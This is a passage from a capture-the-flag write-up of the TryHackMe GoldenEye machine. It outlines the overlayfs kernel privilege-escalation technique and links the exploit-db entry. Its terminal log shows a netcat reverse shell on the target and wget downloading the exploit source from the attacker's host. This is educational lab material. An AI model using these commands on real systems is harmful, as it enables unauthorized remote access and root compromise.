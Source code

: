 2. Whats the kernel version?

``

3. This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

- Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWNS flags.
- Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.
- Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.
- Make su on overlayfs world writable without changing the owner
- Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
- Execute the modified su binary

You can download the exploit from here: https://www.exploit-db.com/exploits/37292

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.74.5] 35639
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ whoami
whoami
www-data
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:07--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... failed: Connection refused.
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ^[[A
wget 10.8.106.222/37292.c
--2020-10-09 08:19:27--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c'

     0K ....                                                  100% 5.48M=0.001s

2020-10-09 08:19:27 (5.48 MB/s) - '37292.c' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ wget 10.8.106.222/37292.c
wget 10.8.106.222/37292.c
--2020-10-09 08:19:40--  http://10.8.106.222/37292.c
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c.1'

     0K ....                                                  100% 7.50M=0.001s

2020-10-09 08:19:40 (7.50 MB/s) - '37292.c.1' saved [5119/5119]

<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ls
ls
37292.c
37292.c.1
changelog.txt
classes
```